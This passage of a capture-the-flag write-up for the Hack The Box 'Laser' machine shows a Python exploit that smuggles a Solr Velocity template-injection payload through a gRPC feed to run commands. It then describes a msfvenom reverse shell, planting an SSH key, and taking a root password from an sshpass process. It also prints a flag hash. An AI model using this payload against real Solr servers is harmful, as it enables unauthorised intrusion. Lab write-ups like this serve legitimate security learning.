 ```python
    pickled = pickle.dumps('{"feed_url": "http://'+HOST+'/solr/'+CORE+'/select?qq=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().'+ command +')+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+%5B1..$out.available()%5D)$str.valueOf($chr.toChars($out.read()))%23end"}')
    #print(pickled)
    payload = base64.b64encode(pickled)
    cmd = 'grpcurl -plaintext -allow-unknown-fields -import-path /root/htb/boxes/laser/grpc_printer/ -proto /root/htb/boxes/laser/grpc_printer/service.proto -d \'{"data":"'+payload.decode('utf-8')+'}"}\' 10.10.10.201:9000 Print.Feed 1>/dev/null'
    os.system(cmd)
    print("[+] Time for Shell...")
```

Now, this was the time to spawn a reverse shell, I tried using the `nc` payload or almost 80% od the pentestmonkey's reverse shell payload but none worked, that's when I created a ELF file with my `LHOST` and `LPORT` and generated it via `msfvenom`. Then I started local HTTP Server and managed to transfer it to the machine. And then running a series of command for marking the file as executable and then executing it, resulted in a reverse shell. So much for a reverse shell.

![Untitled](/img/htb-laser/Untitled%207.png)

## Privilege Escalation

Now, we have a reverse shell, we can go to the home directory of the `solr` but there's wasn't any `user` flag? But then I started looking for anything, upon researching I found that the real home directory as `solr` was in `/var/solr` and we got the flag. Then I added my public key to the `.ssh/authorized_keys` as the file wasn't normally there I created it.

Nothing interesting could be found by running LinEnum except the fact that we have a docker running. But no way could be found to get into the docker. So, it was time to run `pspy` to get the list of background process.

![Untitled](/img/htb-laser/Untitled%208.png)

```bash
c413d115b3d87664499624e7826d8c5a
```

I found a strange process running in the background which was `sshpass -p {password} ssh root@docker_ip /tmp/clear.sh` which seems to be executing the script in docker non-interactively via `sshpass`. Since `sshpass` takes the password from the command line, we get the password for `root` login for docker. 

### Docker

I picked the password and logged into the docker but there was.....nothing? It was just a simple docker which had `feeds` folder in docker but except that nothing at all.

![Untitled](/img/htb-laser/Untitled%209.png)

Honestly, this was not that hard considering the initial foothold, but nonetheless it was great. From pspy background process analysis, we knew that `sshpass` is being used to copy the files from solr's machine `/root/` folder to copy files from solr's machine to docker, there was a script which was being copied to the `/tmp/` folder of the docker. Since the `scp` was used to copy the `clear.sh` to the docker and then it is being executed via `sshpass`.
